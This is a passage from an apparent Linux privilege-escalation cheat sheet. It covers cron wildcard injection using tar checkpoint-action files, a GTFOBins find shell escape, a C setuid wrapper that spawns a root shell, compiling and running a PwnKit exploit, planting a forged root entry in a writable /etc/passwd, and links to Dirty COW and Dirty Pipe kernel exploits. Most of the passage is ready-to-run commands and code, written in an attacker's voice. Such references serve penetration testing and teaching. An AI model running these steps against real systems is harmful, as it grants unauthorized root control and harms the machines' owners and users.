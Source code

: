##### b. Wildcard Injection
When a cron job uses wildcards (`*`), an attacker can trick it.
```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh shell.sh
```

#### Insecure SUID Binaries
Look for binaries with the **SUID** bit set:
```
find / -perm -4000 -type f 2>/dev/null
```
##### a. Exploit SUID Binary with GTFOBins:
Example: `/usr/bin/find`
```
find . -exec /bin/sh -p \; -quit
```
##### b. Custom SUID Wrapper
```
// suid-shell.c
#include <unistd.h>
int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", NULL);
}
```
Compile, set SUID, and boom:
```
gcc suid-shell.c -o suid-shell
chmod +s suid-shell
```

#### Exploiting Polkit (CVE-2021-4034 “PwnKit”)
Affected systems with vulnerable `pkexec` can be rooted instantly.
- Check if vulnerable: `pkexec --version`
- Use publicly available exploit:
```
gcc pwnkit.c -o pwnkit
./pwnkit
```

#### Writable /etc/passwd or /etc/shadow
If `passwd` or `shadow` is writable (rare but critical misconfig):
```
openssl passwd -1 -salt hackpass yourpassword
```
Edit `/etc/passwd`:
```
root:$1$hackpass$yVx...:0:0:root:/root:/bin/bash
```

#### Kernel Exploits
Older or unpatched kernels are goldmines for privesc.
- Check version: `uname -a`
-  Use:
    - [Dirty COW (CVE-2016-5195)](https://github.com/dirtycow/dirtycow.github.io)
    - [Dirty Pipe (CVE-2022-0847)](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit)
    - [OverlayFS Exploit](https://github.com/saghul/overlaysploit)
Always match your exploit to the exact kernel version.
